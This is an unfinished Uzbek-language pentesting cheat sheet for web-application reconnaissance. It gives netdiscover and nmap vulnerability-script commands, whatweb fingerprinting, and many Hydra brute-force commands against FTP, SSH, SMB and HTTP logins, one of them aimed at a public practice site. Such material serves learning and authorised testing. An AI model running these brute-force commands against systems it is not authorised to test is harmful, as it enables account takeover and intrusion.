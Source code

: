 **1. Veb-ilovani skanerlash va zaifliklarni aniqlash**   
Birinchi qadam – IP manzilni skanerlash va veb-ilovaning qanday texnologiyalar asosida ishlayotganini aniqlash.  

1. Lokal tarmoqdagi (LAN) IP manzillar va MAC manzillarini aniqlash uchun tarmoqni skanerlash.   
```
netdiscover -r 192.168.1.0/24
```

```
netdiscover -i wlan0 -r 192.168.0.0/16
```

2. Ochiq portlar va xizmatlarni aniqlash (Port Scanning).   
```
nmap -sC -sV -A -p- <IP-manzil>
```

3. Xizmatga bog‘liq zaifliklarni aniqlash.
```
cd /usr/share/nmap/scripts/
ls -al *vulns*
```   
 -  **FTP zaifligini aniqlash:**
```
nmap --script ftp-vuln* -p 21 [IP-manzil]
```
 - **SMB zaifligini aniqlash:**   
```
nmap --script smb-vuln* -p 445 [IP-manzil]
```
 - **HTTP zaifligini aniqlash:**
```
nmap --script http-vuln* -p 80 [IP-manzil]
```   
 - **Nmap-Vulners**
```
git clone https://github.com/vulnersCom/nmap-vulners /usr/share/nmap/scripts/vulners
nmap --script-updatedb
nmap -sV -Pn 192.168.1.12 --script=vulners/vulners.nse
```

4. Hydra yordamida FTP, SSH, SMB va HTTP xizmatlariga Brute-Force hujumi. (`sudo apt update && sudo apt install hydra -y`)   
 - **FTP ga Brute-Force qilish**
```
ls /usr/share/wordlists
hydra -l admin -P passwords.txt ftp://192.168.1.10
hydra -L users.txt -P passwords.txt ftp://192.168.1.10
```
 - **SSH ga Brute-Force qilish**
```
hydra -l root -P passwords.txt ssh://192.168.1.10
hydra -L users.txt -P passwords.txt ssh://192.168.1.10
hydra -l root -P passwords.txt ssh://192.168.1.10:2222
```
 - **SMB ga Brute-Force qilish**
```
hydra -L users.txt -P passwords.txt smb://192.168.1.10
hydra -L users.txt -P passwords.txt smb://domain/192.168.1.10
```
 - **HTTP Basic Authentication Brute-Force**
```
hydra -l admin -P passwords.txt http://192.168.1.10
hydra -l admin -P passwords.txt http-get://192.168.1.10/admin
```
 - **HTTP POST Form Brute-Force**
```
hydra -L users.txt -P passwords.txt 192.168.1.10 http-post-form "/admin:username=^USER^&password=^PASS^:Login failed"
hydra -l admin -P passwords.txt 192.168.1.10 http-post-form "/login:username=^USER^&password=^PASS^:Login failed"
```

```
http://testasp.vulnweb.com/Login.asp?RetURL=%2FDefault%2Easp%3F
hydra -l admin -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout" -vV -f
```   

5. Veb ilovani aniqlash va tekshirish.
```
sudo apt install whatweb
whatweb -v -a 3 192.168.0.102
```
Natijasi `http://192.168.1.10 [200 OK] WordPress, PHP 8.0.27, Apache 2.4.54`   

6. Yashirin sahifalar va kataloglarni aniqlash.

7. 
